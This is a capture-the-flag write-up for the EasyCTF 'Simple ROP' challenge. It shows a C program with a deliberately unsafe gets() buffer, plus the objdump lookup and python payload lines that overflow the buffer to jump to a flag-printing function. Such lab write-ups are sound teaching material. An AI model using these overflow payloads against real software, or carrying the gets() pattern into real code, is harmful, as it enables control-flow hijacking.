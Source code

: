 #Simple ROP - 120 Points

####phsst - VoidMercy's writeup

We were given a binary and it's source code.

```
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void print_flag();
void what_did_you_say();

int main(int argc, char* argv[])
{
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    what_did_you_say();
    return 0;
}

void print_flag()
{
    system("cat flag.txt");
}

void what_did_you_say()
{
    char buff[64];
    gets(buff);
    printf("You said: %s\n", buff);
}
```

As the problem name suggests, this is a problem that uses ROP. We can see that we have to call the function print_flag() to get the flag, so we first get the address of this function with:

>objdump -d simplerop | grep "print_flag"

We find the address of print_flag to be: 0x804851a

Then, we have to find out the number of characters until we gain control of eip through the return address. Afterwards we append the address of print_flag() in little endian order (reversed order in chunks of 2 bytes), then pipe the input through python (to print the non printable ascii characters).

```
python -c 'print "A"*64+"\x1a\x85\x04\x08"' | ./simple-rop #NO SEG FAULT, NOT ENOUGH CHARACTERS

python -c 'print "A"*76+"\x1a\x85\x04\x08"' | ./simple-rop #GOT THE FLAG! 76 IS A PRETTY COMMON SIZE FOR AN ARRAY OF 64 CHARS
```

##Flag

>easyctf{r0p_7o_v1ct0ry}
